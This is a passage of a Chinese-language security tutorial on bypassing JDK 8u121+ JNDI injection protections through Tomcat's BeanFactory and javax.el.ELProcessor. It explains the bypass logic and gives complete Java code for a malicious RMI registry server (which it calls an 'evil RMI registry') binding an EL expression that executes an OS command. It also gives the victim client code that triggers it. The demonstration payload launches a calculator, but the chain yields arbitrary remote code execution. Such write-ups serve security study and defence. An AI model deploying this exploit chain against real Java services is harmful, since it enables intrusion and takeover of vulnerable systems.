 而刚好`javax.el.ELProcessor#eval`和 `groovy.lang.GroovyShell#evaluate`这两个方法都是可以只传一个String参数就能够执行攻击代码，且依赖库比较常见所以被经常使用。

```java
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
        true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "x=eval"));

ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/bash','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));
return ref;
```

> 针对 RMI 利用的检查方式中最关键的就是 if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) 如果 FactoryClassLocation 为空，那么就会进入 NamingManager.getObjectInstance 在此方法会调用 Reference 中的ObjectFactory。因此绕过思路为在目标 classpath 中寻找实现 ObjectFactory 接口的类。在 Tomcat 中有一处可以利用的符合条件的类org.apache.naming.factory.BeanFactory 在此类中会获取 Reference 中的forceString 得到其中的值之后会判断是否包含等号，如果包含则用等号分割，将前一半当做方法名，后一半当做 Hashmap 中的 key。如果不包含等号则方法名变成 set开头。值得注意的是此方法中已经指定了参数类型为 String。后面将会利用反射执行前面所提到的方法。因此需要找到使用了 String 作为参数，并且能 RCE的方法。在javax.el.ELProcessor 中的 eval 方法就很合适
> 

参考：[https://bl4ck.in/tricks/2019/01/04/JNDI-Injection-Bypass.html](https://bl4ck.in/tricks/2019/01/04/JNDI-Injection-Bypass.html)

1. 无需搭建http服务，直接启动服务端（攻击机）代码：

```java
package com.yy.jndi.jdk8u121;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import org.apache.naming.ResourceRef;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", (String)null, "", "", true, "org.apache.naming.factory.BeanFactory", (String)null);
        resourceRef.add(new StringRefAddr("forceString", "a=eval"));
        resourceRef.add(new StringRefAddr("a", "Runtime.getRuntime().exec(\"gnome-calculator\")"));
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(resourceRef);
        registry.bind("exp", refObjWrapper);
        System.out.println("Creating evil RMI registry on port 1099");
    }
}
```

2. 使用客户端（受害机ubuntu）进行连接即可命令执行，client端代码:

```java
package com.yy.jndi.rmi;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
            String uri = "rmi://192.168.202.1:1099/exp";
            Context ctx = new InitialContext();
            ctx.lookup(uri);
    }
}
```
